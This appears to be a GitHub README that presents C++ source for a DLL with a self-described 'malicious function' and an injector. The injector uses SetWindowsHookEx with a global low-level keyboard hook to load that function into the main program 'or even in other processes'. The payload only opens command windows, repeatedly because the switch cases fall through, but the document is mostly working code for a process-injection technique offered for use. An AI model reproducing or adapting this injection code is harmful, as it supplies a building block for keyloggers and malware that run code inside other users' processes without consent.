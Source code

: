 # SetWindowHookEx-and-inject-a-dll
After creating a DLL there is malicious function in DLL and we write a c++ which hook keyboard and inject the specific function in to main process of c++ program or even in other processes.
<h2>DLL functions.</h2>

#include "pch.h"
#include <iostream>
using namespace std;

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("start cmd");
    case DLL_THREAD_ATTACH:
        system("start cmd");
    case DLL_THREAD_DETACH:
        system("start cmd");
    case DLL_PROCESS_DETACH:
        system("start cmd");
        break;
    }
    return TRUE;
}
BOOL APIENTRY injext(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    system("start cmd");
    return true;
}

<br>
  <h2>Injector</h2>
  
#include <iostream>
#include <Windows.h>

int main()
{
	HMODULE library = LoadLibraryA("load.dll");
	HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "injext");

	HHOOK hook = SetWindowsHookEx(WH_KEYBOARD_LL, hookProc, library, 0);
	Sleep(5000);
	UnhookWindowsHookEx(hook);

	return 0;
}
